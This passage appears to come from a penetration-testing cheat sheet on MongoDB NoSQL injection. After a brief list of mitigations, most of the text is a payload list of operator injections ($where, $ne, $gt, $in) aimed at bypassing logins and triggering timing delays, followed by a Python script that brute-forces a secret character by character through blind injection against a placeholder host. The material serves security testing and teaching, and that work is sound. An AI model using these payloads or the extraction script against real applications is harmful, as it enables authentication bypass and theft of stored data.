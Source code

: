 ```

1. Strip or reject any key that starts with `$` (`express-mongo-sanitize`, `mongo-sanitize`, Mongoose `sanitizeFilter:true`).
2. Disable server-side JavaScript on self-hosted MongoDB (`--noscripting`, default in v7.0+).
3. Prefer `$expr` and aggregation builders instead of `$where`.
4. Validate data types early (Joi/Ajv) and disallow arrays where scalars are expected to avoid `[$ne]` tricks.
5. For GraphQL, translate filter arguments through an allow-list; never spread untrusted objects.

## MongoDB Payloads

List [[https://github.com/cr0hn/nosqlinjection_wordlists/blob/master/mongodb_nosqli.txt|from here]]

```
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
|| 1==1//
|| 1==1%00
}, { password : /.*/ }
' && this.password.match(/.*/index.html)//+%00
' && this.passwordzz.match(/.*/index.html)//+%00
'%20%26%26%20this.password.match(/.*/index.html)//+%00
'%20%26%26%20this.passwordzz.match(/.*/index.html)//+%00
{$gt: ''}
[$ne]=1
';sleep(5000);
';it=new%20Date();do{pt=new%20Date();}while(pt-it<5000);
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}
{"username":{"$in":["Admin", "4dm1n", "admin", "root", "administrator"]},"password":{"$gt":""}}
```
```
## Blind NoSQL Script

```python
import requests, string

alphabet = string.ascii_lowercase + string.ascii_uppercase + string.digits + "_@{}-/()!\"$%=^[]:;"

flag = ""
for i in range(21):
    print("[i] Looking for char number "+str(i+1))
    for char in alphabet:
        r = requests.get("http://chall.com?param=^"+flag+char)
        if ("<TRUE>" in r.text):
            flag += char
            print("[+] Flag: "+flag)
            break
```
```
```